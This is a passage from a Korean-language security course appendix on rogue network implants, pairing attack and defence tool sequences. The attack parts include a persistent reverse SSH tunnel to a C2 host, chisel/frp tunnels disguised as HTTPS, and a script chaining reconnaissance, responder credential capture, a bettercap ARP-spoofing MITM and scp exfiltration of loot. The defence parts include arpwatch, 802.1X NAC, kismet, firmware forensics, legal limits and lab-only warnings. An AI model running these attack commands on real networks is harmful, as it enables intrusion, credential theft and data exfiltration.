   -i /tmp/implant_key \
   -R 2222:localhost:22 \
   implant@c2server.example.com

# 옵션 의미:
#   -M 0                       : 자체 monitor port 비활성 (ServerAlive 사용)
#   -f -N                      : background, 명령 실행 없이 터널만
#   ServerAliveInterval=30     : 30초마다 keepalive
#   ExitOnForwardFailure=yes   : 포트 점유 실패 시 즉시 종료 → autossh 가 재시도
#   StrictHostKeyChecking=accept-new : 첫 접속 자동 신뢰 (initial enroll)

# 검증 (C2 서버에서)
ss -tunap | grep 2222
# tcp  LISTEN  0  128  127.0.0.1:2222   0.0.0.0:*

# 공격자가 C2 에서 임플란트 접근
ssh -p 2222 ccc@127.0.0.1
# → 임플란트 호스트의 셸 (10.20.30.x 내부)

# systemd unit (지속화)
sudo tee /etc/systemd/system/implant-tunnel.service << 'EOF'
[Unit]
Description=Implant reverse SSH tunnel
After=network-online.target
Wants=network-online.target

[Service]
Type=simple
User=ccc
ExecStart=/usr/bin/autossh -M 0 -N -o ServerAliveInterval=30 \
          -o ExitOnForwardFailure=yes \
          -i /home/ccc/.ssh/implant_key \
          -R 2222:localhost:22 implant@c2server.example.com
Restart=always
RestartSec=15

[Install]
WantedBy=multi-user.target
EOF
sudo systemctl daemon-reload
sudo systemctl enable --now implant-tunnel.service
sudo systemctl status implant-tunnel.service --no-pager
```

**탐지** — 방화벽 egress 룰: *내부 호스트 → 외부 22/tcp* 차단. 정상 직원
워크스테이션은 외부 SSH 가 필요하지 않다. SIEM 룰 — *동일 src_ip → dst_port 22
(외부) 가 분당 10회 이상 syn-only* 알림.

#### 도구 6: chisel / frp — HTTP·WSS 위장 터널 (방화벽 우회)

22/tcp 가 차단된 환경에서 임플란트는 80/443 위장 터널을 사용한다. chisel 은
HTTP CONNECT 위장, frp 는 다중 포트 + 도메인 라우팅 + TLS.

```bash
# C2 서버 (외부) — chisel server 시작
chisel server --port 8443 --reverse --tls-key /etc/letsencrypt/live/c2.example.com/privkey.pem \
              --tls-cert /etc/letsencrypt/live/c2.example.com/fullchain.pem \
              --auth implant:S3cret

# 임플란트 — chisel client (R: reverse, 22 → C2 의 2222)
chisel client --auth implant:S3cret \
              https://c2.example.com:8443 R:2222:localhost:22

# 검증 (C2 에서)
ss -tunap | grep 2222

# frp 사용 예 (다중 포트 + 도메인)
# frps.toml (C2)
cat > /etc/frps.toml << 'EOF'
bindPort = 7000
auth.method = "token"
auth.token = "S3cret"
EOF
frps -c /etc/frps.toml &

# frpc.toml (임플란트)
cat > /etc/frpc.toml << 'EOF'
serverAddr = "c2.example.com"
serverPort = 7000
auth.method = "token"
auth.token = "S3cret"

[[proxies]]
name = "implant-ssh"
type = "tcp"
localIP = "127.0.0.1"
localPort = 22
remotePort = 2222

[[proxies]]
name = "implant-rdp"
type = "tcp"
localIP = "127.0.0.1"
localPort = 3389
remotePort = 23389
EOF
frpc -c /etc/frpc.toml
```

**탐지** — TLS SNI fingerprint + JA3 해시. 정상 트래픽과 다른 JA3 = 의심.
Suricata `tls.fingerprint; content:"..."` 룰.

#### 도구 7: arpwatch — 신규 MAC 등장 알림 (방어 핵심)

본문 2.3 의 *MAC OUI 식별* 자동화. arpwatch 는 ethernet/IP 페어를 데이터베이스화
하고 *신규 페어* (new station) / *flip-flop* (동일 IP, MAC 변경 — ARP spoofing
신호) / *changed ethernet* 발생 시 즉시 root 메일 발송.

```bash
# 설치 + 시작
sudo apt-get install -y arpwatch
sudo systemctl enable --now arpwatch

# DB 위치
ls -la /var/lib/arpwatch/

# 인터페이스별 분리 운용
sudo arpwatch -i eth0 -f /var/lib/arpwatch/eth0.dat -m soc@example.com -N

# 알림 예 (root 메일):
#  Subject: new station (10.20.30.250)
#    hostname: <unknown>
#    ip address: 10.20.30.250
#    ethernet address: 0:13:37:de:ad:0
#    ethernet vendor: <unknown>
#    timestamp: Tuesday, May 3, 2026 19:14:22 +0900

#  Subject: flip flop (10.20.30.1)
#    hostname: gateway
#    ip address: 10.20.30.1
#    ethernet address: 0:13:37:de:ad:0          ← 임플란트가 gateway MAC 위장
#    ethernet vendor: <unknown>
#    old ethernet address: 0:c:29:11:22:33
#    old ethernet vendor: VMware

# arpalert (보다 빠른 syslog/exec hook)
sudo apt-get install -y arpalert
sudo tee /etc/arpalert/arpalert.conf << 'EOF'
interface = "eth0"
maclist file = "/etc/arpalert/maclist.allow"
log file = "/var/log/arpalert/arpalert.log"
action on detect = "/etc/arpalert/notify.sh"
EOF

# 화이트리스트 (사전 등록)
sudo tee /etc/arpalert/maclist.allow << 'EOF'
00:0c:29:11:22:33 # gateway
00:0c:29:44:55:66 # workstation-1
EOF

sudo systemctl restart arpalert
```

**SIEM 통합** — arpwatch 메일 → MTA → Wazuh agent (file monitor) → manager
룰. arpalert 는 syslog 직접 — Wazuh 가 즉시 파싱.

#### 도구 8: FreeRADIUS + wpa_supplicant — 802.1X NAC (본문 2.4 등가)

본문의 NAC simulator (`AUTHORIZED_MACS`) 를 *실제로* 작동하는 802.1X 인증
서버로 구현. 임플란트가 빈 포트에 꽂혀도 EAP 실패 → 스위치가 포트 셧다운.

```bash
# RADIUS 서버 (방어 측)
sudo apt-get install -y freeradius freeradius-utils

# /etc/freeradius/3.0/users 에 사용자 등록
sudo tee -a /etc/freeradius/3.0/users << 'EOF'
"alice@CORP" Cleartext-Password := "S3cret!"
EOF

# /etc/freeradius/3.0/clients.conf 에 NAS (스위치) 등록
sudo tee -a /etc/freeradius/3.0/clients.conf << 'EOF'
client switch-1 {
    ipaddr = 10.20.30.250
    secret = SHARED_SECRET_2026
    nas_type = cisco
}
EOF

sudo systemctl restart freeradius
sudo freeradius -X    # foreground debug 모드

# 클라이언트 (정상 워크스테이션 — 802.1X supplicant)
sudo tee /etc/wpa_supplicant/wired.conf << 'EOF'
ctrl_interface=/var/run/wpa_supplicant
ap_scan=0

network={
    key_mgmt=IEEE8021X
    eap=PEAP
    identity="alice@CORP"
    password="S3cret!"
    phase2="auth=MSCHAPV2"
}
EOF

sudo wpa_supplicant -B -D wired -i eth0 -c /etc/wpa_supplicant/wired.conf

# 인증 결과 (성공 시)
sudo wpa_cli -i eth0 status
# Supplicant PAE state=AUTHENTICATED

# 임플란트가 꽂혔을 때 (인증 실패)
# Supplicant PAE state=HELD
# → 스위치가 포트 차단 (no traffic forwarded)

# 사용자 측 직접 시험 (radtest 으로 RADIUS 응답 확인)
radtest "alice@CORP" "S3cret!" 127.0.0.1 0 testing123
# Received Access-Accept    ← 정상
radtest "evil@CORP" "wrong" 127.0.0.1 0 testing123
# Received Access-Reject    ← 임플란트 등가
```

**PacketFence** (full-stack NAC, 학습용 → 운영용 단계 명시):

```bash
# PacketFence — open-source NAC + RADIUS + portal + IDS 통합
# 운영 적용 전 staging 24h + DHCP fingerprint 학습 필수
# Docker 로 lab 시연 (자세한 운영은 별도 과정)
docker run -d --name packetfence --net=host \
   -v /etc/packetfence:/usr/local/pf/conf \
   inverseinc/packetfence:13
# Web UI: https://<host>:1443
```

#### 도구 9: kismet — *무선* 임플란트 탐지 (Rogue AP / Evil Portal)

ESP32 / WiFi Pineapple 기반 무선 임플란트 (1.3 절) 탐지. kismet 은 broadcast
beacon / probe response 를 모니터 모드로 청취하고 *신규 SSID / 신규 BSSID
/ 신규 OUI / probe storm* 알림.

```bash
# 무선 인터페이스 (모니터 모드 가능 — Atheros AR9271 USB 권장)
sudo apt-get install -y kismet aircrack-ng

# 사용자를 kismet 그룹에 추가
sudo usermod -aG kismet $USER

# 모니터 모드 활성
sudo airmon-ng check kill
sudo airmon-ng start wlan0
# → wlan0mon

# kismet 시작
sudo kismet -c wlan0mon
# Web UI: http://localhost:2501

# 헤드리스 (logging) 모드
sudo kismet -c wlan0mon --no-ncurses --daemonize \
   --override log_types=kismet,pcapng,alert

# 탐지 alert 예 (CRYPTOSTRING/EVIL TWIN/PROBESTORM)
tail -f /var/log/kismet/Kismet-*.alert
# ALERT: APSPOOF — duplicate SSID 'CorpWiFi' from new BSSID AA:BB:CC:11:22:33
# ALERT: KARMA — probe response to 자주 탐지된 SSID 'CoffeeShop' from BSSID DE:AD...

# Evil Portal 탐지 (hostapd-mana 기반 임플란트)
sudo kismet --override fingerprint_log=/var/log/kismet/fp.log
# evil portal 의 captive portal HTTP signature 매칭
```

**airodump-ng** (kismet 부재 시 대체):

```bash
sudo airodump-ng wlan0mon -w /tmp/scan --output-format csv
# 결과 → /tmp/scan-01.csv
# BSSID, ESSID, channel, encryption, beacons, PWR
# 새 BSSID = 신규 임플란트 가능
```

#### 도구 10: ESP32 펌웨어 분석 (회수된 임플란트 포렌식)

회수된 ESP32 임플란트 → 펌웨어 dump → 분석. 어떤 페이로드를 실행했는지,
어디로 데이터를 송신했는지 (C2) 식별.

```bash
# esptool 로 펌웨어 dump
pip3 install --user esptool

# 칩 정보
esptool.py --port /dev/ttyUSB0 chip_id

# 전체 flash dump (4MB 가정)
esptool.py --port /dev/ttyUSB0 --baud 921600 \
   read_flash 0 0x400000 /tmp/implant.bin

# 분석 — strings (C2 도메인 / SSID / 토큰 추출)
strings -n 8 /tmp/implant.bin | grep -E "http|wss|esp|wifi|ssid|key" | head -30

# binwalk (펌웨어 구조)
binwalk /tmp/implant.bin
# DECIMAL  HEXADECIMAL DESCRIPTION
# 0        0x0         ESP32 partition table
# 36864    0x9000      NVS (encrypted creds)
# 65536    0x10000     app0 (firmware binary)

# NVS dump (저장된 자격증명)
binwalk -D='ESP32 partition table:bin' /tmp/implant.bin
python3 -m esp32_nvs /tmp/implant.bin --partition nvs

# 결과 예:
# wifi_ssid = "Corp-Guest"
# wifi_pass = "Welcome2025"
# c2_url    = "https://attacker.example.com:8443/beacon"
# token     = "BEAC0N-ABCD-1234"
```

**이력 보존** — 회수 시점 sha256 해시 + 보관 사슬 (chain of custody) 문서.
법적 증거 효력 확보.

### 공격자 흐름 (Recon → MITM → C2 → Exfil) 실 명령 시퀀스

본문 시뮬레이터의 4 phase 를 *실제 OSS 도구* 만으로 한 시퀀스로 결합:

```bash
#!/bin/bash
# attack-implant-flow.sh — 임플란트 동작 5분 시퀀스 (lab 전용)
set -e
LOG=/tmp/implant-$(date +%Y%m%d-%H%M%S).log

# 0. 환경 — 임플란트가 막 설치된 직후
echo "===== [0] Boot recon =====" | tee -a $LOG
ip -4 -o addr show | tee -a $LOG
ip -4 route show | tee -a $LOG

# 1. 정찰 (LAN Turtle nmap 모듈)
echo "===== [1] L2 ARP recon =====" | tee -a $LOG
sudo arp-scan --localnet -r 1 -t 200 | tee -a $LOG
sudo nmap -sn -PR 10.20.30.0/24 -oG - | tee -a $LOG

# 2. 서비스 enum (LAN Turtle scan-quick)
echo "===== [2] Service enum =====" | tee -a $LOG
sudo nmap -sV --top-ports 20 -T4 -oG - 10.20.30.0/24 | tee -a $LOG

# 3. credential 캡처 (responder, 60초 listen)
echo "===== [3] Credential capture =====" | tee -a $LOG
timeout 60 sudo responder -I eth0 -wF -v 2>&1 | tee -a $LOG &
RESP_PID=$!

# 4. MITM (bettercap, 60초)
echo "===== [4] MITM ARP spoof =====" | tee -a $LOG
sudo bettercap -iface eth0 -eval "set arp.spoof.targets 10.20.30.80; \
   arp.spoof on; net.sniff on; net.sniff.output /tmp/sniff.pcap; \
   sleep 60; arp.spoof off; q" 2>&1 | tee -a $LOG &

wait $RESP_PID

# 5. C2 터널 (autossh — 백그라운드 지속)
echo "===== [5] Reverse SSH tunnel =====" | tee -a $LOG
autossh -M 0 -f -N -i /tmp/implant_key \
   -o ServerAliveInterval=30 \
   -R 2222:localhost:22 \
   implant@c2server.example.com
ss -tunap | grep autossh | tee -a $LOG

# 6. exfil (캡처된 결과 + pcap → C2)
echo "===== [6] Exfil =====" | tee -a $LOG
tar czf /tmp/loot.tgz /tmp/sniff.pcap /tmp/Responder/ 2>/dev/null
scp -P 2222 -i /tmp/implant_key /tmp/loot.tgz \
   implant@127.0.0.1:/var/loot/$(hostname)-$(date +%s).tgz | tee -a $LOG

echo "===== [DONE] $(date) =====" | tee -a $LOG
```

이 흐름은 *3 분 ~ 5 분* 안에 완료되며 — 임플란트의 실 동작 (Hak5 LAN Turtle
/ Shark Jack 의 default 페이로드 5종 결합) 과 *기능* 측면에서 동등하다.
하드웨어가 없어도 학생은 이 흐름을 그대로 lab VM 에 실행 — 4 단계 모두
관찰 가능.

### 방어자 흐름 (탐지 → 격리 → 점검 → 보고) 실 명령 시퀀스

```bash
#!/bin/bash
# defend-implant-flow.sh — SOC 측 임플란트 대응 시퀀스
set -e
LOG=/tmp/defend-$(date +%Y%m%d-%H%M%S).log

# 1. 탐지 — arpwatch 알림 트리거 가정
echo "===== [1] Triage =====" | tee -a $LOG
# 새 MAC 보고 — 신규 station
sudo ip -4 neigh show | tee -a $LOG
sudo arp-scan --localnet -r 1 | tee -a $LOG

# 2. OUI 식별
echo "===== [2] OUI lookup =====" | tee -a $LOG
for mac in $(sudo arp-scan --localnet -q | awk '{print $2}' | grep -i ':'); do
    vendor=$(python3 -c "from manuf import manuf; \
                         print(manuf.MacParser().get_manuf('$mac') or 'UNKNOWN')")
    printf "%s  %s\n" "$mac" "$vendor"
done | tee -a $LOG

# 3. 격리 — 의심 IP 의 nftables 차단
echo "===== [3] Isolate =====" | tee -a $LOG
SUSPECT=10.20.30.250
sudo nft add table inet filter 2>/dev/null || true
sudo nft 'add chain inet filter input { type filter hook input priority 0; }' 2>/dev/null || true
sudo nft "add rule inet filter input ip saddr $SUSPECT drop"
sudo nft "add rule inet filter forward ip saddr $SUSPECT drop"
sudo nft list ruleset | tee -a $LOG

# 4. 트래픽 채증 (포렌식 보존)
echo "===== [4] Forensic capture =====" | tee -a $LOG
sudo tcpdump -i eth0 -w /var/loot/suspect-$(date +%s).pcap \
   "host $SUSPECT" -G 300 -W 1 &     # 5분 캡처

# 5. 물리 점검 — 의심 호스트 접근 위치 추적
echo "===== [5] Physical track =====" | tee -a $LOG
# CDP/LLDP — 어떤 스위치 포트인지 식별 (스위치 SNMP)
snmpwalk -v 2c -c public switch.local 1.3.6.1.4.1.9.9.23 | tee -a $LOG
# 스위치 → 패치 패널 → 사무실 위치 매핑 (자산 inventory 참조)

# 6. 회수·조사
echo "===== [6] Recover =====" | tee -a $LOG
# 보안담당자가 위치 이동 → 임플란트 회수 → chain of custody 봉인
# 회수 후: sha256 + binwalk + esptool dump

# 7. 보고서
echo "===== [7] Report =====" | tee -a $LOG
cat << REP | tee -a $LOG
사건: 미승인 네트워크 장치 (Hak5 LAN Turtle 의심)
탐지 시각: $(date)
탐지 경로: arpwatch new station alert
영향: ARP spoof + LLMNR poison 시도 — 신호 캡처 60초
조치: 포트 차단 (nftables) + 회수 + 펌웨어 포렌식
교훈: 회의실 옆 빈 포트 802.1X 미적용 — 즉시 적용 필요
REP
```

### 도구 비교표 (역할별 / 윤리 / 탐지 난이도)

| 도구 | 역할 | 학습 시간 | 탐지 난이도 (피탐) | 윤리 | lab 적합성 |
|------|------|-----------|---------------------|------|-----------|
| nmap | 정찰 | 30분 | 낮음 (중간 — IDS 룰) | OK | ★★★★★ |
| arp-scan | 정찰 (L2) | 15분 | 낮음 — broadcast 흔적 | OK | ★★★★★ |
| netdiscover | 정찰 (passive) | 15분 | 매우 낮음 | OK | ★★★★ |
| bettercap | MITM | 1시간 | 중간 (arpwatch 즉시) | 동의 필수 | ★★★★ |
| ettercap | MITM | 1시간 | 중간 | 동의 필수 | ★★★ |
| responder | credential 캡처 | 30분 | 중간 (LLMNR query 흔적) | 동의 필수 | ★★★★ |
| autossh | C2 터널 | 30분 | 낮음 (egress 22 차단으로 탐지) | OK (lab) | ★★★★★ |
| chisel/frp | 우회 터널 (HTTPS) | 1시간 | 매우 낮음 (TLS 위장) | 동의 필수 | ★★★★ |
| arpwatch | 방어 (탐지) | 15분 | — | OK | ★★★★★ |
| arpalert | 방어 (탐지·exec) | 30분 | — | OK | ★★★★ |
| FreeRADIUS | 방어 (NAC) | 2시간 | — | OK | ★★★★ |
| PacketFence | 방어 (NAC) | 4시간+ | — | OK | ★★★ |
| kismet | 방어 (무선) | 1시간 | — | OK | ★★★★ |
| esptool/binwalk | 포렌식 (회수 후) | 30분 | — | OK | ★★★★ |

### 임플란트 vs 방어 매핑 (1:1)

| 임플란트 동작 | 방어 도구 | 방어 룰·신호 |
|--------------|----------|-------------|
| LAN Turtle nmap 모듈 | Suricata + ET-OPEN | `ET SCAN nmap` SID |
| Shark Jack arp-scan | arpwatch / Wazuh | new station + flip-flop |
| LAN Turtle responder | Windows GPO + Wazuh | LLMNR disable + auth fail spike |
| LAN Turtle MITM (bettercap) | arpwatch | flip-flop 알림 (gateway MAC 변경) |
| Raspberry Pi autossh | egress firewall | 외부 22/tcp DROP + alert |
| ESP32 evil portal | kismet | APSPOOF / KARMA alert |
| Throwing Star LAN Tap (passive) | TDR (시간영역반사) / 케이블 점검 | 신호 감쇠 측정 |
| 펌웨어 백도어 | binwalk / esptool 회수 분석 | 의심 strings (c2 url) |

### 탐지 난이도별 도전 매트릭스

| 임플란트 유형 | 탐지 난이도 | 1차 탐지 도구 | 추가 신호 |
|--------------|-------------|---------------|-----------|
| **active 인라인** (LAN Turtle MITM) | 중 | arpwatch | TTL 변화, MAC flip-flop |
| **active 접속** (Shark Jack) | 중 | arpwatch / nmap | 신규 MAC, 빈 포트 link-up |
| **active 무선** (ESP32, Pineapple) | 중-상 | kismet | 신규 BSSID, KARMA |
| **passive 탭** (Throwing Star) | 매우 상 | 물리 점검 / TDR | 거의 불가능 (트래픽 변조 0) |
| **passive 광 탭** | 극상 | 광 power meter | 광 손실 0.5dB 차이 |
| **펌웨어 백도어** (스위치 internal) | 극상 | 정기 펌웨어 hash 비교 | 변조 시 hash 불일치 |

### 윤리 / 법적 경계

| 행위 | 한국 정보통신망법 / 형법 | 미국 CFAA | 학습 환경 정당화 조건 |
|------|--------------------------|-----------|----------------------|
| 본인 lab VM 에 nmap | 합법 | 합법 | 자기 자산 |
| 회사 빈 포트에 임플란트 설치 | 정통망법 §48 (정보통신망 침해) | CFAA §1030(a)(2) | 서면 동의 + 책임자 입회 |
| 회사 LAN 에서 responder | 정통망법 §49 (비밀 침해) | CFAA + Wiretap Act | 서면 동의 + 범위 명시 |
| 외부 C2 ssh 터널 (autossh) | 무단 = 정통망법 §48 | CFAA §1030(a)(5) | lab 격리망 한정 |
| 회수된 임플란트 펌웨어 분석 | 합법 (포렌식 권한) | 합법 (감독자 권한) | chain of custody 문서 |
| 외부 회사 네트워크에 ESP32 | 정통망법 §48 (불법) | CFAA (불법) | **절대 금지** |

> **현장 원칙**: 물리 침투 테스트 시 ① ROE (Rules of Engagement) 문서 휴대,
> ② 책임자 휴대전화 즉시 연결, ③ 발견 시 즉시 책임자 통보 + 작업 중단,
> ④ 모든 임플란트는 작업 종료 시 회수 책임 (분실 시 보고).

### 실 lab 구성 예 (attacker VM 192.168.0.112 ↔ lab VM 10.20.30.x)

```bash
# attacker VM 사전 준비 (한 번)
sudo apt-get install -y nmap arp-scan responder bettercap autossh \
   freeradius wpa_supplicant arpwatch tcpdump python3-pip
pip3 install --user manuf esptool scapy

# lab 시연 — 5분 임플란트 시뮬레이션
ssh ccc@192.168.0.112
bash /tmp/attack-implant-flow.sh

# 다른 터미널에서 (siem VM)
ssh ccc@192.168.0.103
sudo arpwatch -i eth0 -d 2>&1 | head -20

# 결과 확인
ls -la /tmp/sniff.pcap /tmp/Responder/logs/ /tmp/loot.tgz
```

### 학생 자가 점검 체크리스트

- [ ] `nmap -sn -PR <localnet>` 으로 broadcast 도메인 호스트 모두 식별 가능
- [ ] `arp-scan --localnet` 결과를 `manuf` 모듈로 OUI → 벤더 매핑 가능
- [ ] `responder -I eth0 -wF` 시작 후 LLMNR query 가 잡히는 원리 설명 가능
- [ ] `bettercap` ARP spoof + sniff 한 번에 caplet 작성 가능
- [ ] `autossh -M 0 -N -R` 옵션 의미 (-M 0, ServerAliveInterval, ExitOnForwardFailure)
      한 줄씩 설명 가능
- [ ] `chisel` / `frp` 가 *왜* HTTPS 위장으로 22/tcp 차단 환경을 우회하는지 설명
- [ ] `arpwatch` 의 *new station* / *flip-flop* / *changed ethernet* 3종 알림
      차이를 본인 메일 inbox 에서 직접 확인
- [ ] `freeradius` + `wpa_supplicant` 로 802.1X 인증 성공 → 임플란트 인증 실패
      재현 가능 (`wpa_cli status` 로 PAE state 비교)
- [ ] `kismet` 로 lab 의 정상 AP 와 임플란트 (또는 hostapd-mana) AP 구분 가능
- [ ] 회수된 ESP32 에서 `esptool read_flash` → `binwalk` → `strings` 로 C2 url
      추출하는 흐름 1회 성공
- [ ] 본 lab 모든 명령을 실행하기 전 "이 명령이 운영 회사 LAN 에서 실행되면 어떤
      법조항을 위반하는가" 를 답변 가능 (정통망법 §48 / §49)

### 운영 환경 적용 시 주의

1. **동의 없는 운영 LAN 실행 금지** — arp-scan 한 번이라도 SOC 가 *내부 위협*
   으로 분류 가능. 사전 변경 윈도우 + 서면 통보 + 책임자 입회.
2. **격리 lab VLAN 사용** — VLAN 99 (lab-only), 운영 VLAN 과 trunk 차단.
3. **autossh / chisel / frp egress** — 학습 VM 의 외부 connection 은 lab 내부
   C2 host (같은 hypervisor) 만 허용. 인터넷 egress 차단.
4. **responder log 보관 정책** — 캡처된 NTLM hash 는 24h 내 삭제 (실 user
   credential 일 가능성). lab 의 가상 사용자만 사용.
5. **freeradius shared_secret** — lab 전용. 운영 NAC 와 별도 인스턴스. PAP
   금지, EAP-TLS / EAP-PEAP 만.
6. **arpwatch root 메일** — 운영 적용 시 메일이 폭주 (DHCP 갱신마다 알림).
   *threshold* 또는 *signature 학습 후 알림 구독* 으로 SOC 대응 부담 완화.
7. **회수 임플란트** — 분석 시작 전 사진 + sha256 해시. 분석 후 *물리 폐기 위탁*
   (보안 시설). 임의 재사용 금지.

> 본 부록은 *학습 시연용 OSS 시퀀스* 이다. 실제 침투 테스트는 위촉 계약·범위
> (in-scope IP / VLAN), 시간 (변경 윈도우), 채증 (모든 명령 로그 보관),
> 책임 (사고 시 책임자), 자격 (CRTP / OSCP / KICA 등) 5 요건 모두 충족 시에만
> 수행한다. 학생이 본 lab 의 능력을 가졌다고 *권한* 을 가진 것은 아니다.

---

          -